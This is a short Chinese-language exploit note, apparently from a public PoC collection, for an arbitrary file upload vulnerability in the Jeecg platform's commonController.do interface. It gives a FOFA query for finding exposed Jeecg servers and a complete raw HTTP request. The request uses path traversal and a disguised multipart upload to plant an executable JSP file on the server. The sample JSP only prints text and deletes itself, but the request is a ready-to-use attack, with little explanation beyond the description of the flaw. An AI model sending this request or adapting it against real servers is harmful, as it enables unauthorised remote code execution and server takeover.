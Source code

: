## Jeecg任意文件上传漏洞

Jeecg  快速开发平台，可以应用在任何J2EE项目的开发中，尤其适合企业信息管理系统（MIS）、内部办公系统（OA）、企业资源计划系统（ERP）、客户关系管理系统（CRM）等，其半智能手工Merge的开发方式，可以显著提高开发效率70%以上，极大降低开发成本。其commonController.do接口存在任意文件上传漏洞，可悲攻击者上传恶意脚本，导致服务器被控。

## fofa
```
app="JEECG"
```

## poc
```
POST /api/../commonController.do?parserXml HTTP/1.1
Host: x.x.x.x
Accept-Encoding: gzip, deflate
Content-Length: 463
User-Agent: Mozilla/2.0 (compatible; MSIE 3.01; Windows 95
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcflwtei
Connection: close

------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; "name="name"

zW9YCa.png
------WebKitFormBoundarygcflwtei
ontent-Disposition: form-data; name="documentTitle"

blank
------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; name="file"; filename="zW9YCa.jsp"
Content-Type: image/png

<% out.println("HelloWorld");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundarygcflwtei--
```
![a10d70f9a0848a20dd6ebc0f5f6990de](../../images/2478f8a3-cabf-46a8-abed-721fd81d9d81.png)

![4d05607351d88cb56932ae7a9c7bf399](../../images/de06459c-ad80-4711-8242-eaab2c6b2881.png)
